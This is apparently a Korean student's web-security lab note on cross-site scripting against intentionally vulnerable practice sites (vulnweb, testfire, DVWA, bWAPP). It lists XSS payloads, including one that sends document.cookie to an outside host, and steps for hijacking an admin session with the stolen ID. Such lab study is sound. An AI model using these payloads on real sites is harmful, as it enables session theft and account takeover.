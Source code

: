 ```yaml
---
title: "웹 보안 실습 2"
date: 2024-11-17
categories: [정보보안, 웹 보안]
tags: [IT, Security, Web]
---
```


## **XSS (Cross-Site Scripting)**

### **저장형 XSS**

#### **1. Acunetix 사이트**

- **URL**: `http://testphp.vulnweb.com/listproducts.php?cat=1`

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시


#### **2. AltroMutual 사이트**

- **URL**: [demo.testfire.net](https://demo.testfire.net)

**실습 스크립트**:
- `<script>alert("test")</script>`  
  브라우저에서 "test"라는 경고창 표시
- `<script>alert(document.cookie);</script>`  
  사용자의 쿠키 값을 경고창으로 표시
- `<script>location.href="http://www.naver.com";</script>`  
  사용자를 네이버 웹사이트로 리다이렉션

#### **3. DVWA 사이트 / Ubuntu Apache2**

1. 우분투 아파치 웹 서버 로그 남기기
![](assets/img/정보보안/실습/W_2-1.jpg)

2. DVWA에서 실행할 스크립트 작성
`<script>document.location='http://10.10.10.11/cookie?'+document.cookie</script?>`

3. DVWA XSS에서 실행 (admin/password 계정)

4. 우분투에서 로그 확인 (SSID)

5. 우분투에서 DVWA 접속 (pablo/letmein 계정)

6. f12 저장소의 SSID 값을 로그에서 확인한 값으로 변경

7. 새로고침 하면 admin계정으로 접속 됨

### **반사형 XSS**

#### **BWAPP 사이트**

![](assets/img/정보보안/실습/W_2-2.jpg)
  - 세션값 탈취

